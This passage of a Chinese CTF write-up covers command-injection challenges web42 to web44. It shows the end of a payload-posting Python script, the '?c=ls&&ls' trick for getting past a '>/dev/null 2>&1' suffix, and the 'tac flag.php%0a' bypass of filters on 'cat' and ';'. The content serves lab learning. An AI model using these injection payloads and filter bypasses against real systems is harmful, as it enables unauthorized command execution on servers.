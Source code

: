 ```
ans2=""
for k in range(0,len(myb)):
    myfun(k,myb)
data2="(\""+ans1+"\"|\""+ans2+"\")"

data={"c":data1+data2}
r=requests.post(url=url,data=data)
print(r.text)
```

![image-20220316212021042](https://img-blog.csdnimg.cn/img_convert/e03443bffc2b93a354cd9245bc3fd6e5.png)

cat一下就出来了！

![image-20220316212108446](https://img-blog.csdnimg.cn/img_convert/6349b7a1f7a464508d3d6902eed68e23.png)

# web42

![image-20220316213345412](https://img-blog.csdnimg.cn/img_convert/8f82c6e1adcc17bc9c23946b2289cf92.png)

在给变量c赋值的语句下面的语句`”>/dev/null 2>&1“` ，可以将其理解成将输入的数写入黑洞，也就是说只要执行一个命令都无效

> \>/dev/null   意思就是把错误输出到“黑洞” 

>/dev/null 2>&1 默认情况是1，也就是等同于1>/dev/null 2>&1。意思就是把标准输出重定向到“黑洞”，还把错误输出2重定向到标准输出1，也就是标准输出和错误输出都进了“黑洞”

所以可以`?c=ls&&ls`,这里需要强调一下，需要先url编码之后再执行

![image-20220316213603124](https://img-blog.csdnimg.cn/img_convert/8a196f16d56c47526e577a1b591d9434.png)

![image-20220316213710142](https://img-blog.csdnimg.cn/img_convert/c36e511882adc6f9cf919e8de3096d92.png)

![image-20220316213616093](https://img-blog.csdnimg.cn/img_convert/732f656ec3c69795aa2d18f620928af9.png)

# web43

![image-20220316214137648](https://img-blog.csdnimg.cn/img_convert/d40e7e6a684090e483c65cf7424df03e.png)

过滤了`cat`和`；`，cat可以用tac代替，；可以用%0a代替

```
tac flag.php%0a
```

![image-20220316214354134](https://img-blog.csdnimg.cn/img_convert/69c8f7ae9e18b03dab3c1681f220fe38.png)

# web44

![image-20220317193356268](https://img-blog.csdnimg.cn/img_convert/a27e5dbd54acf589fb1e7d8a9b6e8c8d.png)
